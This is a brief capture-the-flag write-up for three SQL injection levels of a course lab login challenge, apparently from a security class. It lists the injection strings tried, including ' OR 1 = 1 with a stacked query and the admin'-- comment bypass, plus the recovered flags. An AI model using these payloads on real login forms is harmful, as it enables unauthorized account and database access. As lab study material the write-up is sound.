 ### Part1
SQL query: `SELECT * FROM USERS WHERE username = '$username' AND pass = '$password';`, We probably need `SELECT * FROM USERS`
1. Try making 2 queries: password = `'; SELECT * FROM USERS WHERE '' = '`. Failed, first query must pass.
2. Force `WHERE` to be true: username = `' OR 1 = 1; SELECT * FROM USERS WHERE username = '`. First query = `SELECT * FROM USERS WHERE username = '' or 1 = 1;`
Flag: `CS2107{9r33N_l19h7_R3D_L19H7_jybBZC67EtVM6YdK}`

`No CREATE, INSERT, REPLACE, RENAME, ALTER, DELETE, UPDATE, DROP.`
### Part2
1. try previous flag: `Please provide the correct SHA256 hash of Red Light, Green Light (Level 1) Flag! `
2. compute SHA256 [https://emn178.github.io/online-tools/sha256.html](https://emn178.github.io/online-tools/sha256.html): `5f3c01434c8903517cd334c1352e1cea9b49acfacd8d1db6a903e7a67d12c177`
Query: `SELECT * FROM USERS WHERE username = '$username' AND pass = '$password';`
1. Try same SQL injection: `SQL injection detected`
2. Test if check for multiple queries: password = `' OR '' = '`, failed
3. Check banned words: `OR`, `INSERT`
4. Try guessing usernames: `root`, `admin`
5. `admin` passed with `admin'--`
`CS2107{15_9lUc053_t45tY_qRkkru6hkzBVCZdM}`

### Part3
1. Try `admin` again
2. `CS2107{4R3_w3_47_7h3_3nd_8uN57k5se2Kkv8hL}`
